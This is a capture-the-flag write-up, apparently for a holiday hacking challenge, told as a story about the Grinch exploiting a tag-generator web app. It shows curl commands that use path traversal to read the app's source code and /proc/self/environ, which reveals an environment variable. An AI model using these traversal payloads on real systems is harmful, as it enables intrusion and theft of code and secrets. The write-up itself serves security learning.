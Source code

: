 \chapter{Objective 8}
Grinch had already eyeballed that machine and knew about boundaries. So this time, he pretended to be Santa. He also had some pictures lying around.

\subsection{Solving the problem}
Grinch initially tried to figure out what's going on with the site. You know, normal stuff.
He uploaded some pics and noticed that he could visit them in the APP/image?id= path. He remembered that hint from the elf about the source code.
He jumped in his favourite terminal.
\begin{verbatim}
$ curl https://tag-generator.kringlecastle.com/RandomPathNotExisting # Force error
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
$ # We know where the source is located.
$ curl https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb
# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

<snip>

$ # We have the source code.
\end{verbatim}

Grinch was laughing that he had the source code. Per the source, one could upload zip, png, and jpg images.
Also, there was a code execution vulnerability in the file name. Grinch was experienced enough to test first whether he could
fetch the env variable in some other way. Maybe, the env variable was exposed in the app.

\begin{verbatim}
$ curl https://tag-generator.kringlecastle.com/image?id=../../../proc/self/environ --output -
<snip>
GREETZ=JackFrostWasHere
<snip>
\end{verbatim}

Sure enough, the variable was accessible.
